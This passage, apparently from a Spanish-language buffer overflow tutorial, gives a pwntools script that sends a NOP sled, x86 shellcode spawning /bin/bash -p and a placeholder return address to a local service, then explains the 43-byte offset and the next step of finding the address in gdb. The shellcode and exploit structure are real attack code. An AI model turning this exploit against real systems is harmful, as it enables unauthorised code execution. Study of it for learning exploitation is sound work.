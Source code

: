 ```python
#!/usr/bin/env python3


from pwn import *


def exploit():


    host='127.0.0.1'
    port='7777'

    
    offset = 43

    nops = b"\x90"*offset
    eip = b"B"*4




    shellcode = b"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70"
    shellcode += b"\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61"
    shellcode += b"\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52"
    shellcode += b"\x51\x53\x89\xe1\xcd\x80"


    
    payload = nops + shellcode + eip


    p = remote(host, port)
    p.sendline(payload)
    p.close()




if __name__ == '__main__':
    exploit()

```

En este exploit, estamos modificando el offset para que sea 43 (es 76 menos el valor del [shellcode](https://shell-storm.org/shellcode/files/shellcode-606.html), que vale 33) y reemplazando las 'A' por nops para que nuestro shellcode sea interpretado correctamente, pero ahora nos hace falta saber a cual dirección apuntar con el EIP, para saberla vamos a ejecutar este exploit de ahora y luego en gdb ponemos `x/200wx $esp`:
